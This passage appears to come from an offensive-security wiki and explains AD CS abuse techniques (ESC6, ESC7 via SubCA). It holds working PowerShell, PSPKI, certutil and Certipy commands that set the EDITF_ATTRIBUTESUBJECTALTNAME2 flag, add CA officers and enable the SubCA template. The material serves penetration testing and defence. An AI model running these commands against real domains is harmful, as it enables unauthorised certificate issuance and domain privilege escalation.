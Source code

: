 Then, [PSPKI](https://github.com/PKISolutions/PSPKI) (PowerShell) can be used to modify the CA object ([RSAT](https://docs.microsoft.com/fr-fr/troubleshoot/windows-server/system-management-components/remote-server-administration-tools) is needed on the machine where PSPKI is run).

```powershell
Certify.exe cas

# Install PSPKI
Install-Module -Name PSPKI
Import-Module PSPKI

# Get the current value of EDITF_ATTRIBUTESUBJECTALTNAME2 and modify it with SetConfigEntry
$configReader = New-Object SysadminsLV.PKI.Dcom.Implementations.CertSrvRegManagerD "CA.domain.local"
$configReader.SetRootNode($true)
$configReader.GetConfigEntry("EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
$configReader.SetConfigEntry(1376590, "EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")

# Check after setting the flag (EDITF_ATTRIBUTESUBJECTALTNAME2 should appear in the output)
certutil.exe -config "CA.domain.local\CA" -getreg "policy\EditFlags"
```

If RSAT is not present, it can installed like this:

```batch
DISM.exe /Online /Get-Capabilities
DISM.exe /Online /add-capability /CapabilityName:Rsat.CertificateServices.Tools~~~~0.0.1.0
```
{% endtab %}
{% endtabs %}

#### ESC7 - Abusing `SubCA`

When it is not possible to restart the `CertSvc` service to enable the `EDITF_ATTRIBUTESUBJECTALTNAME2` attribute, the `SubCA` built-in template can be used, along with a `ManageCA` right.

The `SubCA` template is vulnerable to the ESC1 attack, but only Domain Admins and Enterprise Admins can enroll in it. If a standard user tries to enroll in it, he will encounter a `CERTSRV_E_TEMPLATE_DENIED` errror and will obtain a request ID with a corresponding private key.

This ID can be used by a user with the `ManageCA` and `ManageCertificates` rights to validate the failed request anyway. The user can then retrieve the issued certificate by specifying the same ID.

{% tabs %}
{% tab title="UNIX-like" %}
If the attacker only has the `ManageCA` permission, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate access rights over the CA object ([how to enumerate](./#attack-paths)) and modify some CA's attributes like the officers list (an officer is a user with the `ManageCertificates` right). The attacker could also enable or disable certificate templates.

```bash
# Add a new officier
certipy ca -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -add-officer 'user'

# List all the templates
certipy ca -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -list-templates

# Enable a certificate template
certipy ca -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -ca 'ca_name' -enable-template 'SubCA'
```
